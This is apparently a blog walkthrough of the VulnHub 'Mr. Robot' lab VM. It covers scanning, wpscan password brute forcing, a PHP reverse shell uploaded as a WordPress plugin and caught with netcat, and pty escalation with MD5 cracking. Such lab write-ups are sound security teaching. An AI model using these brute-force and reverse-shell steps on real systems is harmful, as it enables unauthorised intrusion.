

# Hacking f_society

Mr. Robot is a show on AMC about a disturbed hacker attempting to thwart an omni-present
oligarchy while at the same time trying to suppress a dark alter-ego modeled after his
own father.

Notably, the show tries to portray "hacking" realistically (inasmuch as it can without entire episodes
dedicated to watching Elliot pore over the documentation of a specific vulnerable version
of httpd running on Windows Server 2000), and I appreciate it. Well, mostly.

With that in mind, let's break a Mr. Robot themed VM together, and maybe learn something
about webapp security along the way.
<!-- more -->

Download the .ova from [vulnhub](https://www.vulnhub.com/entry/mr-robot-1,151/), pop it
in your favorite virtualization software (hard to go wrong with VirtualBox), and boot it up.
The Mr. Robot VM grabs a DHCP lease on boot, and I'd recommend running it and your offense
box on the same virtual subnet.

## Recon / Scanning
First, let's scan the subnet to find Mr. Robot's VM.

```shell
root@bento:~# nmap -A 10.0.2.0/24
Starting Nmap 7.01 ( https://nmap.org ) at 2016-08-03 23:48 PDT

Nmap scan report for 10.0.2.5
Host is up (0.00052s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 08:00:27:6C:39:39 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.10 - 3.19
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.52 ms 10.0.2.5
```


From the scan, we can see the VM is probably serving some sort of web-service.
Before we investigate this further, however, let's run some more scans and see
if we can dig up anything else.

```shell
root@bento:~# nikto -host 10.0.2.5
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.0.2.5
+ Target Hostname:    10.0.2.5
+ Target Port:        80
---------------------------------------------------------------------------
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /admin/index.html: Admin login page/section found.
+ /wp-login/: Admin login page/section found.
+ /wordpress/: A Wordpress installation was found.
+ /wp-admin/wp-login.php: Wordpress login found
+ /blog/wp-login.php: Wordpress login found
+ /wp-login.php: Wordpress login found
```

Our nikto scan turns up a bunch of interesting directories, including what looks like
an admin portal for a WordPress site. Definitely worth checking out.

Navigating to the VMs IP in Firefox yields the following page:


None of the commands are all that interesting. What is interesting,
however, is the site's robots.txt file:



Looks like we've got our first key.

```shell
root@bento~# wget http://10.0.2.10/key-1-of-3.txt
--2016-08-06 18:43:14--  http://10.0.2.10/key-1-of-3.txt
Connecting to 10.0.2.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 33 [text/plain]
Saving to: ‘key-1-of-3.txt’

key-1-of-3.txt      100%[===================>]      33  --.-KB/s    in 0s      

2016-08-06 18:43:14 (7.39 MB/s) - ‘key-1-of-3.txt’ saved [33/33]

root@bento~# cat key-1-of-3.txt
073403c8a58a1f80d943455fb30724b9
```

That's a pretty easy win in my book. I'll take it. Save the .dic file for
later, there's no telling how it will come in handy but I doubt they let
us have it for nothing.

Time to revisit the nikto scan and see if we can turn up anything from the
WordPress directories. Let's start with the login page, /wp-login.php.

## Gaining Access

Poking at the login page with a few default credentials doesn't really reveal
anything interesting. Routing the request/response traffic through Burp also
comes up short. Going back to the .dic file we downloaded earlier, it's pretty
clearly some kind of wordlist. There are many duplicate words in there, however,
so I hacked together a Python script to remove them:

```python
with open('fsocity.dic') as infile: dic = infile.readlines()
dic = set(dic)
fsocity = open('fsocity_sorted.dic', 'w')
for i in dic: fsocity.write("%s" % i)
```

Now, using the sorted wordlist and the username 'Elliot' (the most commonly occurring
username in the .dic file) we can attempt to bruteforce the WordPress login. I'll be
using the wpscan tool for my web cracking.

```shell
root@bento:~# wpscan -u http://10.0.2.10/ --wordlist fsocity_sorted.dic --username Elliot
  Brute Forcing 'Elliot': |===================================
  [+] [SUCCESS] Login : Elliot Password : ER28-0652

  Brute Forcing 'Elliot': |===================================
  +----+--------+------+-----------+
  | Id | Login  | Name | Password  |
  +----+--------+------+-----------+
  |    | Elliot |      | ER28-0652 |
  +----+--------+------+-----------+

[+] Finished: Mon Aug  8 12:57:26 2016
[+] Requests Done: 7853
[+] Memory used: 11.816 MB
[+] Elapsed time: 00:02:09
```

Input the credentials into the login form... and we're in.

## Privilege Escelation

From the WordPress admin page, we have access to the source code of a variety of plugins.
Using this, we can spawn a reverse shell with some clever PHP code. The reverse shell I use
I grabbed from [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell), just
make sure to make the necessary adjustments to the socket so you can actually recieve the 
traffic your reverse shell sends back. To do this, edit these lines of the above .php script:

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.0.2.15';  // CHANGE THIS
$port = 6666;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

to reflect your own IP address as well as a generic port you wish to recieve the traffic on.
After that, either zip and upload the standalone PHP shellcode as a WordPress plugin, or paste
the script into one of the plugins already on the site. Then, set up a listener in your terminal
and activate the plugin containing the payload:

```sh
root@bento:~# nc -lvp 6666
listening on [any] 6666 ...
10.0.2.10: inverse host lookup failed: Unknown host
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.10] 57491
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 22:26:41 up  1:08,  0 users,  load average: 0.01, 0.04, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
$ 
```

Cool, we have a shell session up. I poked around the system for a long time looking for clues or
other keys, and finally found the files 'password.raw-md5' and 'key-2-of-3.txt' in '/home/robot'. However, cat-ing the file gives Permission Denied. Looks like I'll have to escalate my privilege.

```sh
$ su
su: must be run from a terminal
$
```

Okay, first we have to spawn a terminal with Python:

```sh
$ python -c 'import pty; pty.spawn("bin/sh")'
$ su robot
su robot
Password:
```

Great, now at least we can 'su'. Going back to the file 'password.raw-md5' we found does indeed
give us a raw md5 hash. Popping it into one of the online crackers like [this one](http://md5cracker.org/)
gives us the string 'abcdefghijklmnopqrstuvwxyz'. Nice. You'd think Elliot would have a better
password.

```sh
$ su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/$ whoami
whoami
robot
robot@linux:/$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:/$
```

Nice. Got the second key.

-TC
